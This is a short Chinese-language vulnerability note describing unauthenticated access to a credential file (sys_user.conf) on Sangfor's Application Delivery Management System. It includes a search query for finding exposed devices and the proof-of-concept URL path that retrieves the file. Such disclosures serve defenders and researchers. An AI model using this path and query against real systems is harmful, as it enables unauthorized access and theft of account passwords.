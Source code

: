 # 

# 深信服 应用交付管理系统 sys_user.conf 账号密码泄漏漏洞

## 漏洞描述

深信服 应用交付管理系统 文件sys_user.conf可在未授权的情况下直接访问，导致账号密码泄漏

## 漏洞影响

```
深信服 应用交付管理系统
```

## 网络测绘

```
app="SANGFOR-应用交付管理系统"
```

## 漏洞复现

登录页面

![image-20220525145113865](./images/202205251451936.png)

验证POC

```
/tmp/updateme/sinfor/ad/sys/sys_user.conf
```

![image-20220525145136819](./images/202205251451862.png)
